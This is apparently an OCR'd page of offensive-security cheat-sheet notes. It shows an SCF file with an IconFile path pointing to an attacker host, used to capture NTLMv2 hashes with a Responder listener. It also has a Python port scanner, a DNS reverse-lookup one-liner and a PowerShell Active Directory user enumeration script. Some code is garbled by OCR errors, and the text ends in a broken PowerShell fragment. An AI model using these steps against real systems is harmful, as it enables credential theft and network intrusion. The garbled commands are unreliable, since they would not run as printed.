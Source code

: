 SCF Files can be created and used to capture credentials in vulnerable version of the SMB protocol in Windows systems. This can be done by configuring the `IconFile` to reference or point to an icon file on the attacker machine. The icon file can be fake and non-existent as well. Example is below

```
[Shell]  
Command=2  
IconFile=\\attacker-ip\share\file.ico  
[Taskbar]  
Command=ToggleDesktop
```

The above can be saved into .scf file and uploaded into the web application. If the uploaded .scf file gets browsed to with explorer.exe of the target system. This is because the .scf file is uploaded into `a file share that exists on the SMB server of the target machine which is the only case this method would work`. Before uploading we run a listener using Responder to catch the authentication request from the target SMB server

```
sudo Responder -I eth0
```

Then the file can be uploaded and you should receive the NTLMV2 hash in the responder output if successful.

### Enumeration

#### Python Port Scanner

```
import socket as sk
for port in range (1, 1024):
	try:
		s=sk.socket(sk.AF_INET, sk.SOCK_STREAM)
		s.settimeout(1000)
		s.connect (('ip',port))
		print '%d:OPEN' % (port)
		s.close
	except: continue
```

#### DNS Reverse Lookup Script

```
for ip in {1 .. 254 .. 1}; do dig -x l.l.l.$ip I grep $ip dns.txt; done;
```

#### Powershell Script for AD User Enumeration

```
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
$PDC = ($domainObj.PdcRoleOwner).Name
$SearchString = "LDAP://"
$SearchString += $PDC + "/"
$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"
$SearchString += $DistinguishedName
$Searcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]$SearchString)
$objDomain = New-Object System.DirectoryServices.DirectoryEntry
$Searcher.SearchRoot = $objDomain
$Searcher.filter="samAccountType=805306368"
$Searcher.FindAll()
```


[Text.Encoding]: :ASCII)) .ReadToEnd() ;"